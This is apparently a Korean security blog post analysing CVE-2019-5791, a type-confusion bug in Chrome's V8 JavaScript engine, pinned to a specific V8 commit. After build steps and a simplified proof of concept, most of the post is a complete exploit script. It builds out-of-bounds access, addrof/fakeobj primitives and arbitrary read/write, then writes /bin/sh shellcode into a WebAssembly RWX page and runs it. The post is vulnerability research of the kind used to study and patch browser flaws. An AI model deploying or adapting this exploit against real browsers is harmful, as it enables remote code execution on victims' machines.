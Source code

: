 ```yaml
---
layout: post
title: CVE-2019-5791 1day analysis
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드
- POC 분석
- Exploit
- 레퍼런스


## 빌드

```bash
git clone <https://chromium.googlesource.com/chromium/tools/depot_tools.git>
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout b267f94ffca9fb90d04ffa03c910d8508c20dd26
gclient sync
build/install-build-deps.sh
tools/dev/gm.py x64.release
```

## POC 분석

- POC 코드

  - https://bugs.chromium.org/p/chromium/issues/detail?id=926651

  - 총 2가지의 POC가 존재한다.

  - 근데 이 POC들은 조금 복잡하게 표현되어 있어서 단순화 시키면 다음과 같다.

    ```jsx
    call = function (code) {
    	try { code(); } catch (e) { console.log(e); }
    }
    
    function run() {
        const f = (v1 = (function() {
    		  var v2 = 0;
    	    var v3 = 0;
        	if (asdf) { return; } else { return; }
        	(function() { print("not trigger") });
    	    (function() { v3 = 'A'.repeat(5000); v2 = [1, 2, 3, 4, 5, 6] });
    		})()) => 1;
    	f();
    }
    
    let oob = {};
    
    %DebugPrint(oob);      // Object map
    %DebugPrint(run);      // JSFunction
    
    call(() => (run()));
    call(() => (run()));
    
    %DebugPrint(oob);      // JSArray[6] (v2)
    %DebugPrint(run);      // Array map
    
    run[13] = 0x41414141   // oob!!
    print(oob.length)
    ```

- call 함수로 run 함수를 2번 트리거하면 oob 객체는 v2라는 JSArray로, run 함수의 Map이 Array로 바뀌어 있다.

- 이 버그는 js 코드를 파싱하고 AST를 만드는 과정에서 최적화를 하려다 꼬인 경우이다.

- run 함수 내엔 두 가지의 익명 함수가 정의되어 있다.

  - 이 중 첫 번째 익명 함수는 트리거되지 않는다.
  - 두 번째 익명 함수는 run 함수가 2번째 call될 때 호출된다.
    - `v3 = 'A'.repeat(5000);` 가 실행되면 run 함수의 map이 Array map으로 변경되며 type confusion이 발생한다.
    - `v2 = [1, 2, 3, 4, 5, 6]` 가 실행되면 oob 객체가 지금 선언한 v2로 바뀐다.

<br>
- run 함수의 map이 Array map으로 바뀌게 되었고 13번째 인덱스 부분을 수정하면 v2로 변한 oob의 length를 바꿀 수 있게되어서 oob가 생긴다.

- oob가 트리거 되는 확률은 높지않다.

  - 힙쪽 oob인데, 여러 쓰레드에서 하나의 힙을 사용하다보니 힙 구성이 그때그때 달라지기 때문이다.

## Exploit

- 현 POC에선 oob가 발생하는 배열이 float가 아니어서 oob read가 되지 않는다. 그래서 v2를 float 배열로 바꿔준 후 디버깅을 통해 length offset을 다시 찾아서 0x41414141로 변경해주어야 한다.

- 그리고 obj_arr과 float_arr을 생성해서 `addrof`와 `fakeobj`를 만들어야하는데, 이 배열을 v2 바로 뒤에 생성하는게 oob 배열에서 접근하는 것이 더 편했다.

- 이제 oob 배열을 통해 `obj_arr_map`과 `float_arr_map`을 leak하고 type confusion을 일으켜서 addrof와 fakeobj를 구현하고 aar과 aaw를 만들어서 익스 하면 끝이다.

- rwx의 offset은 버전마다 달라져서 디버깅을 해보니 현 버전에선 `wasm_i_addr+0xf0n` 이었다. (vmmap으로 rwx 영역 확인 후 search -t qword rwx영역 으로 검색)

- 익스코드

  ```jsx
  call = function (code) {
  	try { code(); } catch (e) { console.log(e); }
  }
  
  function run() {
      const f = (v1 = (function() {
  			var v2 = 0;
  	    var v3 = 0;
      	if (asdf) { return; } else { return; }
      	(function() { print("not trigger") });
  	    (function() {
  				v3 = 'A'.repeat(5000);
  				v2 = [1.1, 1.2, 1.3, 1.4];
  				obj_arr = [{}].slice();
  				float_arr = [1.1, 1.2, 1.3, 1.4];
  			});
  	})()) => 1;
  	f();
  }
  
  let oob = {};
  
  call(() => (run()));
  call(() => (run()));
  
  run[19] = 0x41414141;
  print('oob.length: ' + hex(oob.length));
  
  var buf = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  
  function ftoi(val) { 
      f64_buf[0] = val;
      return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
  }
  
  function itof(val) { 
      u64_buf[0] = Number(val & 0xffffffffn);
      u64_buf[1] = Number(val >> 32n);
      return f64_buf[0];
  }
  
  function hex(b) {
  	return ('0x' + b.toString(16));
  }
  
  if (oob.length == 0x41414141) {
  	obj_arr_map = oob[28];
  	float_arr_map = oob[38];
  
  	print("float_arr_map: " + hex(ftoi(float_arr_map)));
  	print("obj_arr_map: " + hex(ftoi(obj_arr_map)));
  
  	var arb_rw_arr = [float_arr_map, 0, 1.3, 8];
  
  	function addrof(obj) {
  		obj_arr[0] = obj;
  		oob[28] = float_arr_map;
  		let addr = obj_arr[0];
  		oob[28] = obj_arr_map;
  		return ftoi(addr);
  	}
  
  	function fakeobj(addr) {
  		float_arr[0] = itof(addr);
  		oob[38] = obj_arr_map;
  		let fake = float_arr[0];
  		oob[38] = float_arr_map;
  
  		return fake;
  	}
  
  	function aar(addr) {
      	if (addr % 2n == 0)
  			addr += 1n;
  
      	let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
  
      	return ftoi(fake[0]);
  	}
  
  	function aaw_init(addr, val) {
      	fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
      	fake[0] = itof(BigInt(val));
  	}
  
  	var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
  	var wasm_mod = new WebAssembly.Module(wasm_code);
  	var wasm_instance = new WebAssembly.Instance(wasm_mod);
  	var f = wasm_instance.exports.main;
  	var wasm_i_addr = addrof(wasm_instance);
  	var rwx = aar((wasm_i_addr)+0xf0n);
  
  	print('rwx: ' + hex(rwx));
  
  	var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  	var shellcode_buf = new ArrayBuffer(0x100);
  	var dataview = new DataView(shellcode_buf);
  	aaw_init(addrof(shellcode_buf)+0x20n, rwx);
  
  	for (var i=0; i<shellcode.length; i++) {
  		dataview.setUint32(4*i, shellcode[i], true);
  	}
  	f();	
  }
  ```

## 레퍼런스

-  https://bugs.chromium.org/p/chromium/issues/detail?id=926651
